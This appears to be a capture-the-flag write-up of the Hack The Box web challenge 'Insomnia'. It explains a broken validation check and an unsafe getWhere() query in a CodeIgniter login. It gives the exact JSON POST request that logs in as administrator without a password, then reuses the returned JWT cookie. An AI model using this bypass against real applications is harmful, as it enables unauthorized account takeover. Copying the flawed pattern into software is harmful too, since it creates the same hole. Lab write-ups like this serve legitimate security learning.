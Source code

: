 # 🧠 Hack The Box: Insomnia — Web Challenge (Easy)

**Category:** Web  
**Objective:** Gain administrator access and retrieve the flag  
**Author:** Audit-trace

---

## 🧩 Challenge Summary

The challenge presents a CodeIgniter-based PHP web application with login, registration, and a protected profile page. The goal is to gain unauthorized access as the `administrator` user.

---

## 🔍 Recon

Exploring the app, we find:
- `/index.php/login` (Login page)
- `/index.php/register` (Registration)
- `/index.php/profile` (Protected profile view)
- Uses JWT for session management via cookies

---

## 🛠️ Source Code Review (Given)

```php
if (!count($json_data) == 2) {
    return $this->respond("Please provide username and password", 404);
}
```

##🐞 Bug #1: Broken Input Validation

- The line above always evaluates as false == 2, meaning no validation actually happens. Even one key (like username only) will bypass the check.


##🐞 Bug #2: SQL Logic Flaw

```php
$query = $db->table("users")->getWhere($json_data, 1, 0);
```
- This accepts any user input as the query, which allows us to login by providing only a username (no password needed).

##💥 Exploitation:

🧪 Step 1: Bypass Login with Partial JSON
Send this request in Burp

```
POST /index.php/login HTTP/1.1
Host: <IP>:<Port>
Content-Type: application/json
Content-Length: 37

{
  "username": "administrator"
}
```

##✅ Returns:

```
{
  "message": "Login Succesful",
  "token": "<JWT_TOKEN>"
}
```

🧪 Step 2: Use Token to Access Protected Page and Login as Admin:

The token retrieved was used in the session management cookie and after the page was reloaded, we were able to retrieve the flag.


## 🔑 KEY_CONCEPTS:

- 🧰 **Burp Suite (Repeater / Proxy):**  
  Used to intercept, modify, and replay requests. Crucial for crafting custom login payloads and injecting raw JSON to bypass backend logic.

- 📡 **Manual HTTP Requests:**  
  Testing server behavior by removing or modifying parameters (e.g., sending only `"username"` without `"password"`).

- 🛠️ **Source Code Logic Review (Given in lab):**  
  Identified broken condition logic and insecure query structure.

- 🔒 **Session Hijacking via JWT Cookie Injection:**  
  Took the valid admin token and injected it in the `Cookie: token=` header to impersonate the administrator.

- 🔍 **No Password = Still Authenticated?**  
  Exploited faulty logic in `getWhere()` that doesn’t enforce password check if input isn’t validated.

- 🧪 **Minimal JSON Payload Crafting:**  
  Learned how to craft the exact POST body needed to exploit the logic flaw — stripping unnecessary fields.

- ⚠️ **Request Method Awareness:**  
  Realized POST vs GET mattered during testing (e.g., `/login` vs `/profile`), and used the correct one per endpoint.



